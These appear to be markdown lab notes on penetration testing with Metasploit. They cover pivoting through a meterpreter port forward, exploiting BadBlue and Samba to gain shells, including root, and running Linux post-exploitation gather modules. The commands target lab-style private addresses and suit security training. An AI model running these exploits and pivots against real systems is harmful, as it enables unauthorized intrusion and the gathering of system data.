 ```bash
# You find an open port 10.3.25.211:80 and now you must give access to the attacker by port forwarding
# Create a bound between the localhost and the unexposed machine service (port 80)
meterpreter> portfwd add -l 1234 -p 80 -r 10.3.25.211
# CTRL+Z

# The port 10.3.25.211:80 is now reachable on 127.0.0.1:1234. Scan the target 2 by the bound port forwarding
msf6> db_nmap -sV -sS -p 1234 localhost
msf6> services
```

```bash
msf6> use exploit/windows/http/badblue_passthru
msf6> set payload windows/meterpreter/bind_tcp
msf6> set rhosts 10.3.25.211
msf6> set lport 4445
msf6> run
```

### Linux post exploitation

* The MSF provides us with various post exploitation modules for both Windows and Linux.
* We can utilize these post exploitation modules to enumerate information about the Linux system we currently have access to :
  * Enumerate system configuration
  * Enumerate environment variables
  * Enumerate network configuration
  * VM check
  * Enumerate user history

#### Modules

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a post-linux
msf6> setg rhosts 192.140.234.3
msf6> use exploit/linux/samba/is_known_pipename
msf6> run

/bin/bash -i
root@victim-1> id  # root
```

```bash
msf6> use post/linux/gather/enum_configs
msf6> set session 2
msf6> run
```

```bash
msf6> use post/multi/gather/env
msf6> set session 2
msf6> run
```
